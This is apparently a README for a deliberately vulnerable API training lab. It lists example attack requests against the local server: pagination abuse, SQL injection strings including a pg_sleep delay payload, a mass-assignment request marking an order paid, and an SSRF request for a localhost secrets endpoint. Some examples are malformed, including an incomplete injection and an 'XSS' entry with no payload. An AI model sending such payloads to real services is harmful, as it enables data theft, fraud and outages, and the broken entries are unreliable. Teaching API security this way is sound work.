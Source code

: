 # API Threats Example 01

To run the example locally:

1. Clone the repository

2. `cd` into `challenges/example` 

3. Run `poetry install`

4. Run the server: `uvicorn server:server --reload`

Some endpoints are authenticated. To obtain an access token, visit
[apithreats.com/login](https://apithreats.com/login). After successful 
login, you'll see your access token. Use that to authorize your requests 
in the Swagger UI.

You can also follow along with examples on the web, by visiting
[apithreats.com/example_01/docs](https://apithreats.com/example_01/docs). 
Follow the same procedure to obtain an access token and authorize your requests.

## Attacks

### Pagination attacks

Big integer attack
```bash
GET /products?per_page=100000000
```

Scraping attack
```bash
GET /products?page=1000
```

Schema enumeration
```bash
GET /products?order_by=is_exclusive
```

Cause errors / unexpected behaviours
```bash
GET /products?per_page=-100
```

### SQL Injection

BOLA
```bash
GET /orders?status=' 1=1;--
```

Resource starvation
```bash
GET /orders?status=' and 3133=(select 3133 from pg_sleep(10));--
```

### Mass assignment

```bash
PUT /orders/{order_id}
-d '{"product_id": <product_id>, "amount": 10, "status": "paid"}'
```

### Server-side request forgery

```bash
GET /fetch-external-data?url=http://localhost:8000/example_01/secrets
```

### XSS

```bash
GET /localhost:8000/compnies
```

